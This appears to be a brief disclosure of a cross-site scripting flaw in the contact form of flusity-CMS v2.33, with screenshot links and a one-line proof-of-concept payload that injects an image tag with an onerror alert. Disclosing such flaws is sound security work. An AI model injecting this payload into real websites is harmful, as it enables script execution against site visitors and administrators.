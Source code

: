 target:https://github.com/flusity/flusity-CMS
version: v2.33

There is Cross-Site Scripting (XSS)  vulnerability within the "Contact form" .

![1](https://github.com/xiaolanjing0/cms/assets/99333774/3436b4a6-929c-41ce-93b8-8988a7476b83)


poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![2](https://github.com/xiaolanjing0/cms/assets/99333774/e65c14c6-e3a5-4f29-b477-1f8cc3e21bcf)

